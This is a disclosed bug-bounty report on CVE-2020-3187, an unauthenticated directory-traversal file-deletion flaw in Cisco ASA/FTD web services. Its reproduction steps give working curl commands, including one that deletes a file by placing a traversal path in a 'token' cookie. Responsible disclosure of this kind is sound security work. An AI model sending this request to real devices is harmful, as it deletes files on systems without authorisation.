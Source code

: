# CVE-2020-3187 - Unauthenticated Arbitrary File Deletion

## Report Details
- **Report ID**: 1555025
- **URL**: https://hackerone.com/reports/1555025
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-29T22:55:24.747Z
- **Disclosed**: 2022-05-12T20:00:48.582Z

## Reporter
- **Username**: b4dc4t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of the HTTP URL. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences.

The IP has a SSL certificate pointing to ████████
curl -kv https://███

output:
```
Server certificate:
████
```

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the targeted system. When the device is reloaded after exploitation of this vulnerability, any files that were deleted are restored. The attacker can only view and delete files within the web services file system. This file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability can not be used to obtain access to ASA or FTD system files or underlying operating system (OS) files. Reloading the affected device will restore all files within the web services file system.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3187

## Steps to Reproduce
1.First I performed a curl request to validate that /session_password.html gave a 200 response.
curl -k -s -i https://████+CSCOE+/session_password.html
2.Example to delete logo file "/+CSCOU+/csco_logo.gif".
curl -k -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://█████████+CSCOE+/session_password.html

_NOTE: No destructive behavior was performed on target, the above command will remove csco_logo.gif and can be restored on reboot of the device_

## Suggested Mitigation/Remediation Actions
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43



## Attachments
No attachments
